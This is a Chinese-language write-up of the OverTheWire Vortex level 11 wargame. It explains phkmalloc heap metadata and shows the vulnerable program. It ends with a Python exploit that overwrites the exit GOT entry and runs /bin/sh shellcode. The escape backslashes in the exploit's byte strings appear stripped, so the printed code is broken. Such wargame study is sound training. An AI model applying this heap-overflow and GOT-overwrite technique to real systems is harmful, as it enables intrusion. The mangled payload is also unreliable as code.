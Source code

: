 ```yaml
---
title: OverTheWire Vertex Level 11 → Level 12
author: Ripples
layout: post
views:
  - 224
categories:
  - CTF
tags:
  - buffer overflow
  - vortex
  - wargame
  - WriteUp
---
```

<p style="text-indent: 2em;">
  这应该是第二次看到堆溢出的题，上次是babyfirst-heap，但不得不说，堆溢出真蛋疼，堆管理方法就一大堆，要想做堆溢出必须得先搞清楚其用的堆。
</p>

<p style="text-indent: 2em;">
  原题参见<a href="http://overthewire.org/wargames/vortex/vortex11.html" target="_blank">这里</a>。从看到那一堆参考资料和长长的phkmalloc.c起就感觉整个世界都不好了。。。
</p>

<p style="text-indent: 2em;">
  不过东西虽多，搞清楚关键几点这题就能解决了。
</p>

<p style="text-indent: 2em;">
  首先讲下phkmalloc的几个概念：
</p>

<!--more-->

<ul class=" list-paddingleft-2" style="list-style-type: disc;">
  <li>
    <p style="text-indent: 2em;">
      malloc_pagesize：内存页一页的大小
    </p>
  </li>

  <li>
    <p style="text-indent: 2em;">
      malloc_pageshift：满足1 <<&nbsp;malloc_pageshift =&nbsp;<span style="text-indent: 32px;">malloc_pagesize</span>
    </p>
  </li>

  <li>
    <p style="text-indent: 2em;">
      <span style="text-indent: 32px;">malloc_pagemask：为malloc_pagesize &#8211; 1，从而使得addr % malloc_pagesize转化为addr & malloc_pagemask</span>
    </p>
  </li>

  <li>
    <p style="text-indent: 2em;">
      <span style="text-indent: 32px;">malloc_origo：整个堆的起始地址 /&nbsp;<span style="text-indent: 32px;">malloc_pagesize，从而使得idx = ( page_address / malloc_pagesize ) &#8211; malloc_origo，idx为堆中页的编号</span></span>
    </p>
  </li>
</ul>

<p style="text-indent: 2em;">
  在phkmalloc中，每一页中的所有chunk大小相同，chunk分成三种大小，大的是指大小超过页大小一半的，中等和小的区别在于，对于中等大小的chunk，其堆头控制信息存储在专门的一个页上，对于小的chunk，其堆头控制信息存储在该chunk所在页。
</p>

<p style="text-indent: 2em;">
  现在让我们看看题目中的程序：
</p>

<pre class="brush:cpp;toolbar:false">#include&nbsp;&lt;stdio.h&gt;
#include&nbsp;&lt;string.h&gt;

int&nbsp;main(int&nbsp;argc,&nbsp;char&nbsp;**argv)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*p;
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*q;
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*r;
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*s;
&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(argc&nbsp;&lt;&nbsp;3)
&nbsp;&nbsp;&nbsp;&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit(0);
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;p&nbsp;=&nbsp;(char&nbsp;*)&nbsp;malloc(0x800);
&nbsp;&nbsp;&nbsp;&nbsp;q&nbsp;=&nbsp;(char&nbsp;*)&nbsp;malloc(0x10);
&nbsp;&nbsp;&nbsp;&nbsp;r&nbsp;=&nbsp;(char&nbsp;*)&nbsp;malloc(0x800);
&nbsp;&nbsp;&nbsp;&nbsp;strcpy(r&nbsp;,&nbsp;argv[1]);
&nbsp;&nbsp;&nbsp;&nbsp;s&nbsp;=&nbsp;(char&nbsp;*)&nbsp;malloc(0x10);
&nbsp;&nbsp;&nbsp;&nbsp;strncpy(s&nbsp;,&nbsp;argv[2],&nbsp;0xf);
&nbsp;&nbsp;&nbsp;&nbsp;exit(0);
}</pre>

<p style="text-indent: 2em;">
  程序一共分配了4次，两个0x<a></a>800（中等chunk），两个0x<a></a>10（小chunk），通过gdb观察一下分配出来的内存，发现分别为p = 0x804E000、q = 0x<span style="text-indent: 32px;">804F030</span>、r = 0x<span style="text-indent: 32px;">804E800</span>、s = 0x804F040，我们很明显可以看出，strcpy的时候，我们可以通过r，覆盖q所在页上的堆头信息，堆头信息结构：
</p>

<pre class="brush:cpp;toolbar:false">struct&nbsp;pginfo&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;struct&nbsp;pginfo&nbsp;&nbsp;&nbsp;*next;&nbsp;&nbsp;/*&nbsp;next&nbsp;on&nbsp;the&nbsp;free&nbsp;list&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;void&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;*page;&nbsp;&nbsp;/*&nbsp;Pointer&nbsp;to&nbsp;the&nbsp;page&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;u_short&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;size;&nbsp;&nbsp;&nbsp;/*&nbsp;size&nbsp;of&nbsp;this&nbsp;page&#39;s&nbsp;chunks&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;u_short&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;shift;&nbsp;&nbsp;/*&nbsp;How&nbsp;far&nbsp;to&nbsp;shift&nbsp;for&nbsp;this&nbsp;size&nbsp;chunks&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;u_short&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;free;&nbsp;&nbsp;&nbsp;/*&nbsp;How&nbsp;many&nbsp;free&nbsp;chunks&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;u_short&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;total;&nbsp;&nbsp;/*&nbsp;How&nbsp;many&nbsp;chunk&nbsp;*/
&nbsp;&nbsp;&nbsp;&nbsp;u_int&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;bits[1];&nbsp;/*&nbsp;Which&nbsp;chunks&nbsp;are&nbsp;free&nbsp;*/
};</pre>

<p style="text-indent: 2em;">
  在这里，我们需要的是改变s的值，也就是最后一次分配出来的内存地址，这样我们才能在后面的strncpy中修改我们想要修改的位置。然后查看malloc会发现，分配好后返回的指针是(u_char *)bp->page + k，也就是说是由pginfo中的page加上偏移值，那么之前的0x804F040也就是0x804F000+0x<a></a>40，这样，我们只要覆盖掉page，就能够将s改成GOT表的位置，从而在exit(0)的时候获取对程序的控制。
</p>

<p style="text-indent: 2em;">
  objdump查看：
</p>

<pre class="brush:plain;toolbar:false;">080485f0&nbsp;&lt;exit@plt&gt;:
&nbsp;80485f0:	ff&nbsp;25&nbsp;1c&nbsp;c0&nbsp;04&nbsp;08&nbsp;&nbsp;&nbsp;&nbsp;	jmp&nbsp;&nbsp;&nbsp;&nbsp;*0x804c01c
&nbsp;80485f6:	68&nbsp;38&nbsp;00&nbsp;00&nbsp;00&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;	push&nbsp;&nbsp;&nbsp;$0x38
&nbsp;80485fb:	e9&nbsp;70&nbsp;ff&nbsp;ff&nbsp;ff&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;	jmp&nbsp;&nbsp;&nbsp;&nbsp;8048570&nbsp;&lt;_init+0x30&gt;</pre>

<p style="text-indent: 2em;">
  那么我们要将page改为0x804c01c &#8211; 0x<a></a>40 = 0x804bfdc，然后栈底地址为0xffffe000，<span style="text-indent: 2em;">于是乎得到启动程序如下：</span>
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python

import&nbsp;subprocess

addr&nbsp;=&nbsp;&#39;x04xdfxffxff&#39;
got_addr&nbsp;=&nbsp;&#39;xdcxbfx04x08&#39;
shellcode&nbsp;=&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"
subprocess.Popen([&#39;/vortex/vortex11&#39;,&nbsp;&#39;x90&#39;&nbsp;*&nbsp;0x804&nbsp;+&nbsp;got_addr&nbsp;,&nbsp;addr&nbsp;+&nbsp;&#39;x90&#39;&nbsp;*&nbsp;500&nbsp;+&nbsp;shellcode],&nbsp;env&nbsp;=&nbsp;{}).communicate()</pre>

<p style="text-indent: 2em;">
  运行之，成功拿到shell。
</p>
